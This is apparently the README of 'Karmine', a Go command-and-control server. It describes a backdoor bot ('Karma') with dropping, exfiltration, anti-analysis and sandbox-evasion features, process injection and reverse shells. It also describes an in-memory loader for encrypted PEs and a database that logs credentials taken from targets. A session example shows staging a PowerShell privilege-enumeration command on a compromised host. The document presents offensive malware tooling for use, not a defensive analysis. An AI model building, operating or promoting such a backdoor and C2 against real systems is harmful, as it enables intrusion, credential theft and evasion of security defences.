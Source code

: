 # Karmine

Karmine is a C2 server written in Go. It handles requests from a bot/backdoor ('Karma'), which has built-in dropping, exfiltration and anti-analysis / sandboxing features. All communication happens over mTLS, with transferred objects AES-encrypted to avoid detection. Karma instances are run using a loader, 'Karl', which reads encrypted PEs written to disk, decrypts and runs them in memory.

## Setup 

Run `install.sh` in the project root. This will set up configuration files, the `bin`, a x509 certificate-key pair, and a database. You can replace these with your own by replacing the ones in `~/.kdots/` with files of the same name. 
The project depends on ncat for you to set up a listener using the SSL keys in your configuration folder. The ncat command to do so printed to the terminal after a reverse shell is requested, so you can paste and run it in a separate terminal window.

### Dependencies

- `ncat`

## Usage 

### Example

```
$  new karma --interval 3
'karma' saved to /home/pygrum/karmine/bin


$  profiles view

uuid                                 | name         | strain
------------------------------------------------------------
181d70e4-cbc6-4bfd-9e96-7ccb31dbbc27 | 3a89aee34882 | karma

$  stage cmd --for 3a89aee34882 exec "powershell -c whoami /priv"
$  % 3a89aee34882 %  127.0.0.1:1337 ---
INFO[1139] exec powershell -c whoami /priv               type=cmd
INFO[1139] 
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```

The Karmine database logs all staged commands, active strains, and credentials from targets. In-built commands can be used to view this information.

### Commands

As of March 15 2023, there are 3 commands:
- `new`
- `profiles`
- `stage`

To get usage info about these commands, type `<command> --help`

## Karma

Karma is a bot with backdoor functionality, capable of executing shell commands, and injecting remote binaries into legitimate system processes. It communicates over a secure mTLS connection, and supports threaded processing and execution of commands. 
